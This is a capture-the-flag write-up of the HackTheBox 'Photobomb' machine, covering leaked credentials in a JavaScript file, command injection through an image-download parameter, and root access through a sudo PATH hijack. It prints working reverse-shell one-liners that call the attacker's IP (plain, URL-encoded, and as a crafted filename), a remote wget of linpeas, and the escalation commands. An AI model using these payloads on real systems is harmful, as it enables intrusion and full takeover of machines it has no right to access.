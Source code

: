 # Photobomb
## Start: 24/10/2022
## End:   27/10/2022
### IP Address: 10.10.11.182

Ok so first things first, nmap scan, -sV for services/versions -sC for any default scripts we can run, Pn to treat the host as online (as we know it is)

```
$> nmap 10.10.11.182 -sV -sC -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-24 19:53 BST
Nmap scan report for 10.10.11.182
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.38 seconds

```

Ok standard server with SSH and a webbed site which seems to wanting to point us to photobomb.htb, which i'll add to my hosts file just for ease of use.

I mostly swap to the inbuilt browser in burpsuite whenever i look at websites just so that any action i take i can always send to the repeater function and replay them with modifications.

#### Homepage
![Picture of homepage](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/home.png)
Page is very simple, has a link to a "printer" page with a username and password
Looking at the home page source code it seems some careless admin has just given out some credentials in the photobomb.js file loaded by default.
![Picture of leaked privs](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/leaked_privs.png)
So pH0t0 : b0Mb! ok. the name Jameson given here could be useful too.
#### Printer page
![Picture of admin prompt](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/printer.png)
Well we have some credentials.. might as well try them
![Picture of successful login](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/printer_success.png)
So this page looks to ask us to select a picture and a size / filetype to download for printing purposes.
It does this by making a post request along with the form data to the same site at /printer, so lets make one manually, as we can specifiy the file name, my initial thought is can we potentially use this to view other files?

So lets hit that button and inspect the request!
![Picture of repeater](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/repeat.png)
So we send a filename, filetype and size. 
Well lets not send anything! What do we get back? 500 error showing a backtrace of the ruby program which runs the server, including what it looks for. Here it shows it's matching a filename using 
![Picture of 500 error 1](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/error_500_1.png)
```
if photo.match(/\.{2}|\//)
```
Well i dont know regex well enough, but it seems it checks for either a `..` or a `/` symbol to try to block directory inclusions
The filename seems secure enough, it can only find pictures that are there, ignores directories, and causes the whole page to error if the system doesn't find the file.
So lets try another parameter, we can use the same technique to view the regex backtrace for the filetype.
![Picture of 500 error 2](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/error_500_2.png)
```
 if !filetype.match(/^(png|jpg)/)
```
again, im not the best with regex. but this regex allows any character as long as it has png or jpg in it, well lets try and breakout using this parameter, i'll put a semicolon and a sleep command and see what happens
```
photo=.&filetype=png;sleep 20&dimensions=0x0
```
and what do you know, that page took ages to load.. about 20 seconds!
![Picture of loading page](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/waiting20.png)
### Command Injection
Well first things first, we seem to have command injection, can we reverse shell at this stage?
There are many different ways to reverse shell, the one that always seems to work for me is below:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc $IP $PORT >/tmp/f
```
lets url encode that, setup a netcat listener and see if we get a connection!
![Picture of nc](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/nc-startup.png)
encoded comes out to
```
%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%36%2e%35%31%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66
```
![Picture of exploit 1](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/owned_page.png)
![Picture of exploit 2](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/owned_shell.png)
SHELL ACCESS!

## User Access
We are in command of the user "wizard", lets check this home directory out!
![Picture of user home folder](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/user_folder.png)
And here we find the user.txt flag, I'll let you grab that yourself if you're reading this :)
## Root Access
Ok, so we have the user account, the first thing i run to make things easier to find is linpeas!

`wget 10.10.16.51:8000/linpeas.sh && chmod +x linpeas.sh`
I've included the output of linpeas as it's own file within this folder if you want to read over what it found.
I see potentially some CVE vulnerabilities

```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

Potentially Vulnerable to CVE-2022-2588
```
also, there seems to be a file in /opt/, called cleanup.sh which is run by root 
```
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/5 * * * * sudo /opt/cleanup.sh
```
that file reads as follows:
```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```
~So the script takes a log file, stores it as an old log and truncates the new log, it then finds all .jpg files within the /home/wizard/photobomb folder and execs chown as root on all of them.~

~now usually if a script is ran as root, while taking input from a user (which in this case would be the file names within the photobomb folder) is very unsecure (good for us :))~

~first things first i want to take a look at the man page for find, to see how the -exec flag actually works~

~`exec command {} +`~

~`This  variant  of the -exec action runs the specified command on the selected files, but the command line is built  by  appending each  selected file name at the end; the total number of invocations of the command will  be  much  less  than  the  number  of matched  files.   The command line is built in much the same way that xargs builds its command lines.  Only one instance of  {} is  allowed  within the command, and (when find is being invoked from a shell) it should be quoted (for example, {}) to protect it  from  interpretation  by shells.  The command is executed in the starting directory.  If any invocation with the + form returns  a non-zero value as exit status, then find returns a non zero exit status.  If find encounters an error, this  can  some‐times  cause an immediate exit, so some pending commands may not be run at all.  This variant of -exec always returns true.`~

~The important thing to note is here is is that the man page suggests to quote the {} whereas in the script it's not quoted! could this mean a crafted filename could be used to make the super user run a reverse shell connection?~

~A filename that could fit could be "bash -i >& /dev/tcp/10.10.16.51/4242 0>&1;a.jpg"~

~After some testing it doesn't seem to work out the way i wanted, however whilst looking on gtfobins (a site which shows which binaries can be used to gain root access) i found that the find command could be used to gain sudo if~

Ok, so i was on the wrong track there, i should really check every part of the linpeas file myself before i move onto attempting exploitation. lesson learned.
The current user (Wizard) can run a specific shell script (/opt/cleanup.sh) AND change environment variables as sudo with no password neccessary:
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
so we can run a file which uses a general path to reference the "find" command, so this is vulnerable to a path modification vulnerability
this is when we manually set the $PATH variable to include a script named "find" and when the script runs find it will run our version, with sudo permissions!
```
bash-5.0$ echo bash > /tmp/find
bash-5.0$ chmod +x /tmp/find
bash-5.0$  sudo PATH=/tmp:$PATH /opt/cleanup.sh
#  id  
uid=0(root) gid=0(root) groups=0(root)
```
it's just that easy it seems!
and to finish off,:
```
cat /root/root.txt
52*****************************f
```
All done! I need to take my time while re-doing reconnaissance once initial access is gained is what i mainly took away from this. Going forward i'll read through the whole linpeas script and make a shortlist of interesting things to try first.

Thanks for reading.